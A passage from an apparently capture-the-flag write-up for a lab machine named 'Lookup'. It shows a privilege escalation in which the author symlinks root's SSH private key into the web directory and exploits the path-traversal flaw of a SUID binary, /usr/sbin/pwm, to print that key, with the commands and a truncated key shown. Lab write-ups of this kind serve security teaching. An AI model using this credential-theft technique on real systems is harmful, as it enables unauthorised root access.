 ```console
www-data@lookup:/var/www/html$ ln -s /root/.ssh/id_rsa /var/www/html/.passwords
www-data@lookup:/var/www/html$ ls -la /var/www/html/.passwords
lrwxrwxrwx 1 www-data www-data 17 Nov 25 22:53 /var/www/html/.passwords -> /root/.ssh/id_rsa
```

Finally, running `/usr/sbin/pwm`, we can see it works exactly as we anticipated, extracting the username as `../var/www/html` and printing the contents of `/home/../var/www/html/.passwords`, which is a symlink to `/root/.ssh/id_rsa`. This allows us to obtain the private **SSH** key of the `root` user, which we can then use to gain a shell as `root`.

```console
www-data@lookup:/var/www/html$ /usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: ../var/www/html
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
DgTNYOtefYf4OEpwAAABFyb290QHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

Lookup is R00ted!!

<style>
.center img {        
  display:block;
  margin-left:auto;
  margin-right:auto;
}
.wrap pre{
    white-space: pre-wrap;
}
</style>
